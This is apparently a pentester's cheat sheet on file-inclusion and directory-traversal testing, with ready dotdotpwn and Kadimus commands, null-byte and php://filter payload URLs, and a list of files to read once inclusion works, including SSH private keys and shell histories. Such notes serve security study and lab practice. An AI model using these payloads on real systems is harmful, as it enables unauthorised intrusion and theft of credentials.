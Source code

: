 - Kadimus
    https://github.com/P0cL4bs/kadimus

      ./kadimus -u http://$TARGET_IP/example.php?page=

- Check for directory Traversal

      sudo dotdotpwn -m http -h http://$TARGET_IP -M GET -O

      sudo dotdotpwn -m http-url -u http://$TARGET_IP/index.php?book=TRAVERSAL -O -k root: -b

- `-k` specifies search string (I.E. root: entry in passwd file) 

- Bypass file extension checks

    - Null byte injection:
    
          http://$TARGET_IP/page=http://$TARGET_IP/maliciousfile.txt%00
    
    - Other:   
    
          http://$TARGET_IP/page=http://$TARGET_IP/maliciousfile.txt?

- Bypass execution

      http://$TARGET_IP/index.php?page=php://filter/convert.base64-encode/resource=index
      base64 -d savefile.php

- PHP
  https://cobalt.io/blog/a-pentesters-guide-to-file-inclusion

- If have LFI, check: 

      /home/<user>/.ssh/id_rsa
      /home/<user>/.ssh/authorized_keys
      /home/<user>/.bash_history (and other shell histories)
      /home/<user>/.profile (and other shell profiles)
      /var/log/apache2/access.log

### Inspect with developer tools
- Cookies
- Requests/Responses
- Page source
- inspector
- Debugger

### curl

- Get Header

      curl -I http://$TARGET_IP 

- Get everything

       curl -i http://$TARGET_IP

- Get everything; follow redirect

      curl -i -L  http://$TARGET_IP

